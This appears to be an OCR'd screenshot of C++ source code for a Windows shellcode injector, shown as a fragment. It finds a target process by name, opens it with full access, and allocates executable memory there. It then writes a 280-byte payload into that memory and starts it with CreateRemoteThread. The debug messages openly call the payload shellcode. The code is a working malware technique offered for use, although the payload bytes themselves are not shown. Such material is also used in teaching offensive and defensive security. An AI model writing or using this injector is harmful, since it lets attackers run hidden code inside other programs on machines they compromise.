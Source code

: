 ```cpp

	PROCESSENTRY32W ProcEntry = { 0 };

	ProcEntry.dwSize = sizeof(PROCESSENTRY32W);

	if (!Process32FirstW(hSnapshot, &ProcEntry)) {
		printf("\n[ERROR at \"Process32FirstW\"] -> %d\n", GetLastError());
		return false;
	}

	do {

		if (lstrcmpW(ProcEntry.szExeFile, wcProcess) == 0) {
			wprintf(L"\n[+] Process found -> \"%s\"\n\t\\__PID -> %d\n", ProcEntry.szExeFile, ProcEntry.th32ProcessID);
			*ProcId = ProcEntry.th32ProcessID;
			break;
		}

	} while (Process32NextW(hSnapshot, &ProcEntry));


	return true;
}

bool RemoteInjection(DWORD dwPid) {

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, dwPid);
	if (hProcess == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR CREATING THE HANDLE TO THE PROCESS] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[HANDLE]\n");

	PVOID pRemoteAddress = VirtualAllocEx(hProcess, nullptr, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (pRemoteAddress == nullptr) {
		printf("\n[ERROR ALLOCATING THE REMOTE BUFFER] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[BUFFER]\n");

	SIZE_T BytesWritten = 0;

	if (!WriteProcessMemory(hProcess, pRemoteAddress, pPayload, 280, nullptr)) {
		printf("\n[ERROR WRITTING THE SHELLCODE INTO THE REMOTE BUFFER] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[SHELLCODE]\n");

	HANDLE CreateThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)pRemoteAddress, nullptr, 0, nullptr);

	if (CreateThread == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR CREATING THE REMOTE THREAD] -> %d\n", GetLastError());
		return false;
	}

	WaitForSingleObject(CreateThread, INFINITE);

	VirtualFreeEx(hProcess, pRemoteAddress, 0x1000, MEM_RELEASE);

	CloseHandle(hProcess);
```